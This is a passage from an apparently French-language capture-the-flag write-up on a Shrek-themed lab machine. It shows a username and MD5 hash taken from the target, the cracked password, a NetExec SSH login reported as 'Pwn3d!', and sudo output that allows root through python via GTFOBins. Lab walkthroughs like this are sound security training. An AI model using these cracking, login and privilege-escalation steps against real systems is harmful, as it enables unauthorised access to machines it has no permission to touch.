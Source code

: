 ```
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:cf4c2232354952690368f1b3dfdfb24d'

```

&nbsp;

Crack du hash `MD5` trouver

<img width="972" height="717" alt="Capture du 2025-02-10 21-17-53" src="https://github.com/user-attachments/assets/f969a99e-ae3d-420d-aef6-4b8c0a04d8a3" />


&nbsp;

<span style="color: #dddddd;">🖥️</span> **NetExec**

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $nxc ssh 192.168.56.78 -u shrek -p onion
SSH         192.168.56.78   22     192.168.56.78    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.78   22     192.168.56.78    [+] shrek:onion (Pwn3d!) Linux - Shell access!
```

&nbsp;

<span style="color: #dddddd;">⚙️</span> **GTFObin**

Avec un `sudo -l` on peut voir qu’on peut être root sans password avec `python`

```
shrek@ubuntu:~$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```

&nbsp;

Allons voir sur `GTFObins` si python peut nous être utiles

<img width="957" height="383" alt="Capture du 2025-02-10 21-35-46" src="https://github.com/user-attachments/assets/845896a0-c521-47f9-8cde-1eca8b4bcc09" />


&nbsp;

Devenir root avec python avec utilisateur `shrek` grâce au `GTFObin`
